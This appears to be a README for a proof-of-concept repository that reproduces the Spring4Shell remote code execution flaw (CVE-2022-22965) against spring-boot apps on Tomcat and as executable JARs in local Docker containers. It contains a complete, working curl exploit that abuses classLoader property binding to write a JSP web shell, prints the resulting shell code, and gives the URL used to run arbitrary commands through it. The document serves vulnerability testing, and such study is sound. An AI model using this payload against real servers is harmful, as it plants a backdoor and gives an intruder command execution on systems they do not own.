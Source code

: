 # Replicate spring shell 0 day vulnerability
This is a POC to test spring shell vulnerability in a spring-boot app on multiple runtimes. You can test spring-boot WAR on Tomcat and spring-boot JAR


## Step 1: Prepare vulnerable service
Below are 2 paths to create a service. One is a spring-boot WAR running on standalone Tomcat and the other is a spring-boot jar executable

### spring-boot WAR on tomcat
1. Run command to:
   - Package a war file
   - Build a tomcat 8 JDK 11 image (This POC uses Amazon Corretto, but pick your applicable image)
   - Run a container from the image        
 `mvn clean package -P war && docker build . -f Dockerfile-war -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
   1. If the jsp is not created, _the application is not compromised_
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Review jsp content:
   `docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"` will display
   `<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %>//`
   _This means the application is compromised_

### spring-boot jar
1. Run command to:
    - Package a jar file
    - Build a JDK 11 image (This POC uses Amazon Corretto, but pick your applicable image)
    - Create a container from the image        
      `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command that attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
    1. If the jsp is not created, _the application is not compromised_
```
curl --request POST \
  --url http://localhost:8080/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Check if a jsp file is present in embedded tomcat ROOT folder:
`docker exec -it springshell bash -c "cd /tmp/tomcat.*.8080/work/Tomcat/localhost/ROOT;ls"`. If there is no jsp, _the application is not compromised_

## Step 2: Exploitation
- Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404, _the application is not compromised_
  - If the output is the response of a shell command execution, _the application is compromised_. Refer remediation steps in the references below

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/